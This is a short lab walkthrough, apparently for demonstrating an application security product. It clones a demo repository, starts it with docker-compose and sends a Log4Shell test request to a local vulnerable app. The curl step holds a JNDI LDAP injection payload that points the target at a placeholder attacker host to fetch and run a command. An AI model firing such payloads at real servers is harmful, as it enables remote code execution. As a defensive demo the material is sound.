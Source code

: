 
## Bootstrap your instant AppSec demo

Get the project

`git clone https://github.com/mkol5222/appsec-demo.git`{{execute}}

Set AppSec again TOKEN
`export TOKEN=bring-your-own-token`{{execute}}

Bootstrap it.

`cd appsec-demo; docker-compose up -d`{{execute}}

Try to reach app with attempt to inject using Log4Shell vulnerability...

`curl --resolve log4shell.local:80:127.0.0.1 log4shell.local -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'`{{execute}}

Check vulnerable app logs

`docker-compose logs log4shell`{{execute}}